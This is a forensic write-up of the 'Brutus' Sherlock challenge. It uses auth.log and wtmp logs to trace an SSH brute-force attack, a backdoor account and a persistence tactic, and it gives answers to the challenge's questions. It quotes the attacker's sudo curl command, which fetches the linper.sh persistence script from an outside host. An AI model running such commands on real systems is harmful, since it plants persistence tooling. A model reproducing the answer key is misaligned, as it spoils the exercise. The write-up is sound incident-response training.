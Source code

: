 # Brutus

#linux #auth.log #wtmp #brute_force #confluence

## Speech
```
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.
```

## The question

1. Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?
    - Lots of password failed by : 65.2.161.68
2. The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?
    - Line 281 we see an accepted password for root
3. Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?
    - Use the wtmp : `[7] [02549] [ts/1] [root] [pts/1] [65.2.161.68] [65.2.161.68] [2024-03-06T06:32:45,387923+00:00]`
4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?
    - 37 (the first session number, 34, was closed imediatly because it was the brute force/automated tool that connect)
5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?
    - cyberjunkie (we can see the creation of this user at line 333)
6. What is the MITRE ATT&CK sub-technique ID used for persistence?
    - Let's search for "MITRE ATT&CK create account" we get : T1136, only 3 sub-technique .001 is the local account
7. How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)
    - Connect on line 322 (with the accept password, also we must take the timestamp from wtmp and not auth so 6:32:45), then we received a disconnect from TA at line 355 timestamp : 6:37:24. 4min and 39s, so 4*60+39=279
8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?
    - Line 375 /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh